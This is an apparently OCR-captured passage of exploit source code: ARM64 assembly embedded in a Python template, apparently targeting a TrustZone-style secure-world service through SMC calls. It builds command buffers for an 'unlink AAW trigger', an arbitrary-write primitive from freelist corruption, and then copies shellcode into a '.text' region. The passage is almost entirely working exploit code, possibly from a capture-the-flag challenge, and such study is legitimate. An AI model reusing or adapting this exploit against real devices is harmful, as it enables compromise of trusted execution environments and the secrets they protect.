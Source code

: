 ```python
    movk x22, #{((TCI_Data_addr)>>16)&0xffff}, lsl #16
    movk x22, #{(TCI_Data_addr)&0xffff}, lsl #0
    mov x8, #0x0 
    loop_tci:                  
        add x2, x21, x8 // dst
        add x1, x22, x8 // src
        ldrb w0, [x1]
        strb w0, [x2]
        add x8, x8, #1
        cmp x8, #{len(TCI_Data)}
        bne loop_tci
    movz x0, #0x8300, lsl 16          
    movk x0, #0x06, lsl 0
    mov x1, x10
    smc #0x1337

    // unlink AAW trigger
    mov w2, #3
    str w2, [x9] // cmd
    mov w2, #4
    str w2, [x9, #4] // idx
    movz w2, #0x0000, lsl 16
    movk w2, #0x20, lsl 0
    str w2, [x9, #8] // sz

    movz w2, 0x0010, lsl #16
    movk w2, 0x0050, lsl #0
    str w2, [x9, #16] // data + 4
    str w2, [x9, #20] // this is needed to get out of the freelist loop.
    
    movz x0, #0x8300, lsl 16          
    movk x0, #0x06, lsl 0
    mov x1, x10
    smc #0x1337

    // get .text
    mov w2, #3
    str w2, [x9] // cmd
    mov w2, #5
    str w2, [x9, #4] // idx
    movz w2, #0x0000, lsl 16
    movk w2, #0x1900, lsl 0
    str w2, [x9, #8] // sz
    mov x8, #0x0 
    loop_copy:                  
        add x2, x21, x8
        add x1, x20, x8
        ldrb w0, [x1]
        strb w0, [x2]
        add x8, x8, #1
        cmp x8, #{len(SEL0_shellcode)}
        bne loop_copy
